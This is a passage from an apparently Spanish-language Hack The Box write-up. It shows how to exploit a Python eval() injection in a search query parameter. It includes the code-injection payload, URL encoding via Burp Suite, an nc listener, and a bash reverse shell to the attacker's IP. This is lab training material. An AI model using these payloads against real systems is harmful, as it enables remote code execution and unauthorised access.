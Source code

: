 Para que el método `eval()` pueda ejecutar código **Python** válido, tenemos que cerrar las comillas simples del parámetro **'query'**, (que es el texto que nosotros introducimos).

También tendremos que cerrar el paréntesis que se abre en **search**, y opcionalmente comentar con una almohadilla el código restante para que no lo ejecute.

Para ejecutar comandos, importaremos la librería **os** de **Python**.

```python
',__import__('os').system('id')) #
```

Desde **Burpsuite**, podemos codificarlo en código **URL**, porque si no no funcionará.

![picture](/assets/images/hackthebox/bus15.png)

Copiamos el código codificado en **URL** en el input de **query**, y enviamos la petición.

Podemos comprobar que recibimnos el output del comando seleccionado.

![picture](/assets/images/hackthebox/bus16.png)

La idea es ejecutar una **Reverse Shell**, y obtener una **Shell** interactiva en nuestra máquina local.

Para ello primero crearemos un **Listener** con **ncat** en nuestra máquina local, y a continuación la **Reverse Shell**.

- *Listener*

```bash
nc -nlvp 4444
```

- *Reverse Shell*

```bash
bash -c "bash -i >& /dev/tcp/'nuestra IP'/4444 0>&1"
```
